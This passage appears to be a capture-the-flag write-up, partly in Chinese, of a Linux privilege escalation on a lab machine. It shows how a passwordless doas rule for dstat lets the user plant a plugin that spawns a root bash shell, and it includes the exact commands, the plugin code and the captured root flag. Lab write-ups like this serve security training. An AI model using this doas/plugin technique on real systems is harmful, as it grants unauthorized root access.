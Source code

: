 Quick Search on Hacktricks 
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation#doas

```bash
player@soccer:~$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```
> `/usr/bin/dstat` 能夠用root執行

看看 `dstat` 的manual

```bash
player@soccer:~$ man dstat
...
FILES
       Paths that may contain external dstat_*.py plugins:

           ~/.dstat/
           (path of binary)/plugins/
           /usr/share/dstat/
           /usr/local/share/dstat/
...           
```
> 可以放入自訂plugin，以`dstat_`開頭

找plugins dir

```bash
player@soccer:~$ ls ~/.dstat/
ls: cannot access '/home/player/.dstat/': No such file or directory
player@soccer:~$ ls /usr/bin/dstat/plugins/
ls: cannot access '/usr/bin/dstat/plugins/': Not a directory
player@soccer:~$ ls /usr/share/dstat/
__pycache__              dstat_dstat_ctxt.py     dstat_md_status.py            
...
```

`/usr/share/dstat` 沒權限建立檔案，改到 `/usr/local/share/dstat/
`
```bash
player@soccer:/usr/share/dstat$ touch  dstat_qq.py
touch: cannot touch 'dstat_qq.py': Permission denied

player@soccer:/usr/share/dstat$ cd /usr/local/share/dstat
player@soccer:/usr/local/share/dstat$ ls -la
total 8
drwxrwx--- 2 root player 4096 Dec 24 08:12 .
drwxr-xr-x 6 root root   4096 Nov 17 09:16 ..
player@soccer:/usr/local/share/dstat$ vi dstat_ok.py
player@soccer:/usr/local/share/dstat$ cat dstat_ok.py 
import os; os.system("bash -i")
```

Get Root Bash shell

```bash
player@soccer:/usr/local/share/dstat$ doas -u root /usr/bin/dstat --ok
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
root@soccer:/usr/local/share/dstat# id
uid=0(root) gid=0(root) groups=0(root)
root@soccer:/usr/local/share/dstat# cd ~
root@soccer:~# cat root.txt 
a3874e42bc7c69b123a341cfbaadd09d
```
